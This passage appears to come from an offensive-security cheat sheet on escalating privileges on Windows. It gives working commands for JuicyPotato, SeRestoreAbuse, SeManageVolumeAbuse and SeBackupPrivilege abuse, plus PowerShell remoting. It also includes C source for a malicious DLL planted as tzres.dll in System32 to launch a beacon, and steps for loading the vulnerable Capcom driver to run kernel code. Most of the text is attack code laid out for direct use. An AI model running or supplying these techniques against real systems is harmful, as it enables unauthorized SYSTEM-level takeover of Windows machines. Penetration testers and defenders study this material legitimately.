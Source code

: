 - This method tricks the “NT AUTHORITY\\SYSTEM” account into authenticating via NTLM to a controlled TCP endpoint and negotiates a security token that is finally been impersonated (this technique works on Windows 10 1803, Server 2016 and lower\). If the default BITS class identifier \(CLSID\) doesn't work on the targets OS type, check [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID) for another one\) \([JuicyPotato](https://github.com/ohpe/juicy-potato)\): ```JuicyPotato.exe -t * -p <path to payload.exe> -l <random port (e..g 9001)> (-c {<CLSID (e.g. 9B1F122C-2982-4e91-AA8B-E071D54F2A4D)>})```

##### _SeRestorePrivilege abuse:_ 
- Run any command as NT\\SYSTEM \([SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse.git)\): ```.\SeRestoreAbuse.exe "cmd /c <command>"```

##### _SeManageVolumePrivilege abuse:_ 
This technique gives full control over the C: directory structure\. An attacker can read and write files anywhere on the system\. 
- 1\. Run tool \([SeManageVolumeAbuse](https://github.com/xct/SeManageVolumeAbuse.git)\): ```.\SeManageVolumeAbuse.exe```
- 2\. It is now possible to read and write files in a privileged context and start for example a beacon:
	- 1\. Create a custom dll and save it as tzres\.c:
        ```C
        #include <windows.h>
        BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
            if (dwReason == DLL_PROCESS_ATTACH){
                system("powershell.exe -ep bypass -c \"<command here>\"");
                ExitProcess(0);
            }
            return TRUE;
        }
        ```
	- 2\. Compile the dll: ```x86_64-w64-mingw32-gcc tzres.c -shared -o tzres.dll```
	- 3\. Upload the dll to the target system and save it as "C:\\Windows\\System32\\wbem\\tzres\.dll"
	- 4\. To start a beacon as NT\\NETWORK SERVICE, call "systeminfo" to trigger it: ```systeminfo```
	- 5\. Elevate from NT\\NETWORK to NT\\SYSTEM via any SeImpersonatePrivilege exploit \(Potatoes\)\. 
	- 6\. To correctly stop the NT\\NETWORK shell/beacon, kill the process and do NOT exit the shell \(otherwise the systeminfo process will hang and can’t be exploited again without system reboot\): ```taskkill /f /pid <PID PS process>```

##### _SeBackupPrivilege abuse:_
- If you can’t access all folders or documents on a system \(e\.g\. file server\) but have the SeBackUpPrivilege, you can copy any folder/share to a new accessible location: ```robocopy /b C:\<path to source folder> C:\<path to destination>```

##### _PowerShell Remoting Privilege:_
- If the owned user account is member of the ‘Powershell Remoting’ group, it is possible to execute code directly on another system: ```invoke-command -computername <target computer name (e.g. dc01)> -scriptblock {<code to execute (e.g. hostname, iex)>}```

##### _SeLoadDriverPrivilege Privilege:_
This technique requires the "SeLoadDriverPrivilege" privilege and makes it possible to load a malicious device driver and execute code in the kernel space\. 
- 1\. Upload the following [files](https://github.com/mach1el/htb-scripts/tree/master/exploit-fuse) to the target “C:\\temp” directory: Capsom\.sys, EOPLOADDRIVER\.exe, ExploitCapsom\_modded\.exe and netcat\.bat\. 
- 2\. Modify the netcat\.bat file so it starts a beacon
- 3\. On the target host run driver exploit \(successful when showing "NTSTATUS: 0000000, WinError: 0"\): ```.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys```
- 4\. Execute the netcat\.bat file: ```.\ExploitCapcom_modded.exe``` 
